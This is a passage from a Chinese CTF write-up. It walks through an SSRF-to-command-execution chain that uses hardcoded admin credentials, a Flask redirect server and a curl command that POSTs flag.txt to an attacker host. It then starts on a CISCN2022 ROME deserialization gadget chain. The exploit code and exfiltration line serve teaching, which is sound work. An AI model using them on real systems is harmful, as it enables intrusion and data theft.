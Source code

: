 ```java
    } else {
      String credentials = authorization.substring("Basic ".length());
      byte[] decodedCredentials = Base64Utils.decode(credentials.getBytes("UTF-8"));
      String[] arrays = (new String(decodedCredentials)).split(":");
      if (arrays != null && arrays.length == 2) {
        String username = arrays[0];
        String password = arrays[1];
        if ("Admin".equals(username) && "AdminE6fdEiU7".equals(password))
          Runtime.getRuntime().exec(command); 
      } 
    } 
  }
}
```

首先判断`ip`是否为本地发起的请求，然后接收`Headers`中的`Authorization`参数，取其`Basic`之后的值进行Base64解码，并以`:`为界将其断成两个字符串，最后分别比较是否为`Admin/AdminE6fdEiU7`，如果是就可以执行任意命令。

首先构造一个跳转的代码

```python
# coding:utf8
from flask import Flask,url_for,redirect,request
from werkzeug.routing import  BaseConverter

app = Flask(__name__)

@app.route('/')
def hello_world():
    return redirect('http://127.0.0.1:8080/admin?command=curl%20-X%20POST%20-F%20xx=@flag.txt%20http://vps:8989/', code=301)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8080)
```

接着利用`/proxy`路由请求该重定向地址，并记得带上`Authorization:Basic QWRtaW46QWRtaW5FNmZkRWlVNw==`

![image-20220621154203433.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-0329d729e6bdb6af74bf8cb67a322808e112e73f.png)

最后即可接收到flag

![image-20220621153838209.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-3275563c2340f8ec671e3038827104a3ee0af6d8.png)

CISCN2022\_华东北分区赛 - Java题
=========================

> 复现使用的环境 : jdk1.8.0\_65

根据`IndexController`类可知考察的是Java反序列利用，查看`pom.xml`文件没有添加啥依赖，但是题目给出了`ToStringBean`类，应该是考察的`ROME`链的反序列化。`ROME`链的触发基本是通过`TemplatesImpl`进行类加载，入口类有挺多的，这里使用`BadAttributeValueExpException`类作为入口类

调用链如下

```java
/*
TemplatesImpl.getOutputProperties()
ToStringBean.toString()
BadAttributeValueExpException.readObject()
*/
```
